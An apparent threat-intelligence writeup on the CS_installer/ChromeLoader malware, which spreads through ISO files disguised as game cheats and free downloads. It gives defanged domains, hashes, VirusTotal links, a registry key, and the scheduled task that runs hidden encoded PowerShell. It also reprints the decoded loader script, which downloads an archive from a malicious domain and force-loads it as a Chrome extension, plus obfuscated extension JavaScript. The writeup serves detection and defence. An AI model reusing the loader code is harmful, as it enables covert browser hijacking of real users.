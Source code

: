 # Observed malicious IOCs for the CS_installer Malware

### Date of first occurrence

01-04-2022

### Sample Analysis
https://app.any.run/tasks/bfb74c9f-89d0-4c3b-8c65-233677cdbfc5

### Domains Observed

```
hxxps[://]learnataloukt[.]xyz
hxxps[://]brokenna[.]work
```

### Malicious ISO

The Naming convention of the ISOs appear to be targeting young adults.

```
Universal Chat Spammer.iso
Roblox Muscle Legends Script _ AutoFarm + More ....iso
[UPDATED] Bee Swarm Simulator Script GUI _ Hack....iso
This_Young_Maidenhead_Family_Now_Makes_15800_..._1.iso
The Sims 4 [w_ ALL DLC] Free Download.iso
How To Install Shaders For Minecraft 1.18.1_1....iso => reported by reddit user remuchiiee
```

https://www.virustotal.com/gui/file/fa52844b5b7fcc0192d0822d0099ea52ed1497134a45a2f06670751ef5b33cd3  
https://www.virustotal.com/gui/file/b43767a9b780ba91cc52954aa741be1bddb0905b492e481aea992bca2a0c6a93  

mounted ISO mainly contains:
```
\Device\CdRom0\CS_INSTALLER.EXE
\Device\CdRom0\CS_installer.exe.config
\Device\CdRom0\CS_installer.pdb
\Device\CdRom0\CS_installer.pdb
\Device\CdRom0\Microsoft.Win32.TaskScheduler.dll
```

### CS_installers

https://www.virustotal.com/gui/file/ded20df574b843aaa3c8e977c2040e1498ae17c12924a19868df5b12dee6dfdd  
https://www.virustotal.com/gui/file/5f57a4495b9ab853b9d2ab7d960734645ebe5765e8df3b778d08f86119e1695c  
https://www.virustotal.com/gui/file/187e08fca3ea9edd8340aaf335bd809a9de7a10b2ac14651ba292f478b56d180  

### Reads hostname

```
HKEY_LOCAL_MACHINE\SYSTEM\CONTROLSET001\CONTROL\COMPUTERNAME\ACTIVECOMPUTERNAME
```

### Scheduled Task

```
ChromeLoader

cmd /c start /min "" powershell -ExecutionPolicy Bypass -WindowStyle Hidden -E <base64EncodedPayload>
```

### Snippet of base64 decoded powershell script

```powershell
$extPath = "$($env:LOCALAPPDATA)\chrome"
$confPath = "$extPath\conf.js"
$archiveName = "$($env:LOCALAPPDATA)\archive.zip"
$taskName = "ChromeLoader"
$domain = "SomeMaliciousDomain"

$isOpen = 0
$dd = 0
$ver = 0

(Get-WmiObject Win32_Process -Filter "name='chrome.exe'") | Select-Object CommandLine | ForEach-Object {
	if($_ -Match "load-extension"){
		break
	}

	$isOpen = 1
}

if($isOpen){

	if(-not(Test-Path -Path "$extPath")){

		try{
			wget "https://$domain/archive.zip" -outfile "$archiveName"
		}catch{
			break
		}

		Expand-Archive -LiteralPath "$archiveName" -DestinationPath "$extPath" -Force
		Remove-Item -path "$archiveName" -Force

	}
	else{

		try{
			if (Test-Path -Path "$confPath")
			{
				$conf = Get-Content -Path $confPath
				$conf.Split(";") | ForEach-Object {
					if ($_ -Match "dd")
					{
						$dd = $_.Split('"')[1]
					}elseif ($_ -Match "ExtensionVersion")
					{
						$ver = $_.Split('"')[1]
					}
				}
			}
		}catch{}

		if ($dd -and $ver){


			try{

				$un = wget "https://$domain/un?did=$dd&ver=$ver"

				if($un -Match "$dd"){
					Unregister-ScheduledTask -TaskName "$taskName" -Confirm:$false
					Remove-Item -path "$extPath" -Force -Recurse
				}

			}catch{}

			try{
				wget "https://$domain/archive.zip?did=$dd&ver=$ver" -outfile "$archiveName"
			}
			catch{}

			if (Test-Path -Path "$archiveName"){
				Expand-Archive -LiteralPath "$archiveName" -DestinationPath "$extPath" -Force
				Remove-Item -path "$archiveName" -Force
			}

		}

	}

	try{
		Get-Process chrome | ForEach-Object { $_.CloseMainWindow() | Out-Null}
		start chrome --load-extension="$extPath", --restore-last-session, --noerrdialogs, --disable-session-crashed-bubble
	}catch{}

}
```

Malicious Extension

```
sha256sum archive.zip
561f219a76e61d113ec002ecc4c42335f072be0f2f23e598f835caba294a3f9b  archive.zip

Contents:
background.js  conf.js  manifest.json  options.png
```

Sample Extension Configuration
```
cat conf.js

let _ExtnensionName = "Options";
let _ExtensionVersion = "4.0";
let _dd = "MzQ1NDYHAQICAwIGDAEAAgEFAgILBwAMSgoABgYDB0gEAgICAgUHAwAASQ==";
let _ExtDom = "https://krestinaful[.]com/";
let _ExtDomNoSchema = "krestinaful[.]com"
```

Sample Obfuscated Javascript
```js
cat background.js

T1MM.q3 = (function () {
    var v = 2;
    for (; v !== 9;) {
        switch (v) {
        case 2:
            v = typeof globalThis === 'object' ? 1 : 5;
            break;
        case 1:
            return globalThis;
            break;
        case 5:
            var G;
            try {
                var s = 2;
                for (; s !== 6;) {
                    switch (s) {
                    case 2:
                        Object['defineProperty'](Object['prototype'], 'xbHiy', {
                            'get': function () {
                                var J = 2;
                                for (; J !== 1;) {
                                    switch (J) {
                                    case 2:
                                        return this;
                                        break;
                                    }
                                }
                            },
                            'configurable': true
                        });
                        G = xbHiy;
                        s = 5;
                        break;
                    case 5:
                        G['QQr8M'] = G;
                        s = 4;
                        break;
                    case 4:
                        s = typeof QQr8M === 'undefined' ? 3 : 9;
                        break;
                    case 9:
                        delete G['QQr8M'];
                        var N = Object['prototype'];
                        delete N['xbHiy'];
                        s = 6;
                        break;
                    case 3:
                        throw "";
                        s = 9;
                        break;
                    }
                }
            } catch (l) {
                G = window;
            }
            return G;
            break;
        }
    }
})();
T1MM.A1MM = A1MM;
e7(T1MM.q3);
[TRUNCATION..]
```
